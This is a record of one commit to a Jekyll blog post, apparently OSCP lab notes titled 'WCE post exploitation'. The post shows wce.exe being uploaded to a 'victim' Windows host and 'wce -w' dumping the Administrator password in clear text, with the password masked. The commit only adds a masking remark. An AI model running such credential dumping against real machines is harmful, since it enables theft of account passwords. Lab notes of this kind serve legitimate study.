

Before and after one commit to dmittakarin8/dmittakarin8.github.io, a Jekyll site: the page built from _posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; before the commit the page ends 968 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Updated 2015-06-06-Using-WCE-to-dump-clear-text-passwords.md

```diff
--- a/_posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md
+++ b/_posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md
@@ -3,6 +3,7 @@ published: true
 layout: post
 title: WCE post exploitation
 ---
+
 
 
 Download wce
@@ -13,12 +14,12 @@ Download wce
 
 Upload wce.exe to victim
 
-**Victim**:  Execute wce.  Administrator password displayed in the clear
+**Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)
 
     C:\Documents and Settings\Administrator\My Documents>wce -w
     wce -w
     WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
     Use -h for help.
 
-    Administrator\RALPH:_<password>_
+    Administrator\RALPH:*<password>*
     RALPH$\THINC.LOCAL:
```
